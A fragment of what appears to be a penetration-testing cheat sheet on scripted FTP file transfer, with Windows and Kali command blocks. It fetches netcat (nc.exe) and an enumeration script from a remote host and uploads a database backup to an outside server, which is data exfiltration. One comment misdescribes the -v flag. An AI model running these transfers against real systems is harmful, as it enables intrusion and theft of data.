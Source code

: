 login with username over SSH/RSH

# FTP

Download an executable from a remote FTP server (Windows)

{% highlight PowerShell %}
C:\ echo open 10.1.2.3 > C:\script.txt
C:\ echo USER myftpuser >> C:\script.txt
C:\ echo myftppass >> C:\script.txt
C:\ echo GET nc.exe >> C:\script.txt
C:\ echo bye >> C:\script.txt
{% endhighlight %}

Run it with the `s` tag

{% highlight PowerShell %}
C:\ ftp -s:script.txt
C:\ ftp -v -n -s:script.txt

# -n = Supress auto login
# -v  = Supress display of responses
{% endhighlight %}

Upload a file to a remote FTP Server

{% highlight PowerShell %}
C:\ echo open 10.1.2.3 > C:\script.txt
C:\ echo USER myftpuser >> C:\script.txt
C:\ echo myftppass >> C:\script.txt
C:\ echo PUT E:\backups\database.dbf >> C:\script.txt
C:\ echo bye >> C:\script.txt
C:\ ftp -s:script.txt
{% endhighlight %}

Download a file from a remote server (Linux)

{% highlight PowerShell %}
root@kali:/# echo ‘open 10.1.2.3’ > ftp.txt
root@kali:/# echo 'user <username> <password>' >> ftp.txt
root@kali:/# echo ‘get linuxenum.sh enum.sh’ >> ftp.txt
root@kali:/# echo ‘bye’ >> ftp.txt
root@kali:/# ftp -n < ftp.txt
{% endhighlight %}

# TFTP

Create a /tftp folder

{% highlight PowerShell %}
mkdir /tftp
{% endhighlight %}
